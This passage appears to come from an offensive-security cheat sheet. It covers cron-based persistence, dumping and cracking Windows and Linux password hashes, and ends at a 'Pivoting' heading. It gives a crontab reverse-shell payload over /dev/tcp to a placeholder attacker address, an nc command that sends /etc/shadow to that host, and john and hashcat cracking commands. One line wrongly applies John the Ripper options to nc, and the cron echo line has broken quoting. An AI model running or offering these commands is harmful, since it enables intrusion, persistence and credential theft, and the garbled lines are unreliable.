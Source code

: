 ```bash
$ crontab -l
# list all crontab jobs
$ echo "* * * * * /bin/bash -c "bash -i >& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1" > [FILENAME]"
# this is an example payload.
$ crontab -i [FILENAME]
# add the created payload to the crontab.
```

<a id=7></a>
# Dumping and Cracking Hashes

<a id=7.1></a>
## Dumping and Cracking LSASS Hashes

As we know, the SAM database is locked while the system is on, meaning that we cannot open it ourselves, unlike the Shadow file
in Linux. However, with sufficient permissions, we can dump the hashes from the LSASS process. 

I'll just teach the process of cracking these hashes, as we already know how to dump them.

```bash
$ john --format=NT --wordlist=/path/to/words [NTLM_FILE]
$ hashcat -a3 -m 1000 [NTLM_FILE] [WORDLIST]
```

<a id=7.2></a>
## Dumping and Cracking Linux Hashes

We know how Linux passwords are hashed, the hashing algorithms that it uses, but I'll talk about something else.
It doesn't matter if the Shadow file is "readable". It's only readable for privileged users, which in a corporate
environment *should* be as few as possible, even if more users access the server, as some of us may know by the principle
of least privilege.

Let's see how to crack hashes...

```bash
$ nc [ATTACKER_IP] [ATTACKER_PORT] < /etc/shadow
# sample of how you'd steal the shadow file. less noisy than running SCP, and honestly cooler.
$ unshadow [PASSWD_FILE] [SHADOW_FILE]
# "unshadow" the shadow file.
$ nc --format [FORMAT] [SHADOW_FILE] --wordlist [WORDS]
# the format in this case will vary on the hashing algorithm used in the shadow file. you may not pass 
# a --format flag, but sometimes JTR will not recognize the hashing algo.
$ hashcat -a3 -m 1800 [SHADOW_FILE] [WORDS]
```

<a id=8></a>
# Pivoting
